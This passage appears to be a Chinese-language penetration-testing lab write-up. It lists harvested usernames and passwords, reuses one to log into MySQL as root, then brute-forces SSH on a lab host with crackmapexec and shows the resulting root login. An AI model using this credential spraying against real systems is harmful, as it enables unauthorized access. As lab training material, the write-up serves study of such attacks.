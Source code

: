 user list

> root
>
> dan

pass list

> goodday
>
> root@ISIntS
>
> killerbeesareflying

```shell
www-data@web:/var/www/blog$ mysql -uroot -proot@ISIntS
mysql -uroot -proot@ISIntS
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 216
Server version: 5.1.54-1ubuntu4 (Ubuntu)

Copyright (c) 2000, 2010, Oracle and/or its affiliates. All rights reserved.
This software comes with ABSOLUTELY NO WARRANTY. This is free software,
and you are welcome to modify and redistribute it under the GPL v2 license

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

然后，利用`crackmapexec`工具爆破SSH

```shell
crackmapexec ssh 10.10.10.100 -u user.list -p pass.list
```

```shell
SSH         10.10.10.100    22     10.10.10.100     [*] SSH-2.0-OpenSSH_5.8p1 Debian-1ubuntu3
SSH         10.10.10.100    22     10.10.10.100     [-] root:goodday Authentication failed.
SSH         10.10.10.100    22     10.10.10.100     [+] root:root@ISIntS (Pwn3d!)
```

`root:root@ISIntS`成功

```
ssh root@10.10.10.100
```

```bash
root@web:~# id
uid=0(root) gid=0(root) groups=0(root)
root@web:~# whoami
root
root@web:~# ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0c:29:39:86:a2  
          inet addr:10.10.10.100  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fe39:86a2/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3266 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2815 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:545528 (545.5 KB)  TX bytes:610881 (610.8 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:58 errors:0 dropped:0 overruns:0 frame:0
          TX packets:58 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
```
